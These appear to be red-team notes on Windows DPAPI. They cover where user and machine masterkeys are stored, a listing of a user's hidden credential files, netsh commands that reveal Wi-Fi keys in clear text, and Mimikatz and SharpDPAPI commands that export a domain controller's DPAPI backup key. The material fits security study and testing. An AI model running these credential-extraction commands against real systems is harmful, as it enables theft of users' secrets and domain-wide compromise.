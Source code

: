 DPAPI encryption mechanism relies on masterkeys (MK), used to encrypt the data. The Masterkeys are encrypted with a derivative from the user's password or the DPAPI system key.

User masterkeys are located here:
```
C:\Users\<user>\AppData\Roaming\Protect\Microsoft\<SID>
```

Machine masterkeys are located here:
```
C:\Windows\System32\Microsoft\Protect\S-1-5-18\User
C:\Windows\System32\Microsoft\Protect\S-1-5-18
```

Different types of secrets are encrypted using DPAPI:
- Credentials
```
For User:
PS C:\Users\lutzenfried> Get-ChildItem -Hidden C:\Users\lutzenfried\AppData\Local\Microsoft\Credentials\


    Directory: C:\Users\lutzenfried\AppData\Local\Microsoft\Credentials


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a-hs-        2023-04-23   9:41 PM           4368 B81681331F8F01AA4D35198BE3BF510B
-a-hs-        2023-03-01  11:01 AM          11104 DFBE70A7E5CC19A398EBF1B96859CE5D
-a-hs-        2023-03-02  10:34 AM           1264 E05DBE15D38053457F3523A375594044

For Systems:
Get-ChildItem -Hidden C:/Windows/System32/config/systemprofile/AppData/Local/Microsoft/Credentials/
```
- Vault
- DPAPI blob
Wi-Fi credentials are stored as DPAPI blobs inside the following files:
```
Location: C:\ProgramData\Microsoft\Wlansvc\Profiles\Interfaces\*.xml

> netsh wlan show profile

> netsh wlan show profile SSID key=clear
```
- RSA / NGC

--> As Domain Admin, you can extract the backup key that lets you decrypt any users' secrets.  
Using Mimikatz
```
lsadump::backupkeys /system:dc01.offense.local /export
```

Using SharpDPAPI
```
SharpDPAPI.exe backupkey /nowrap
```
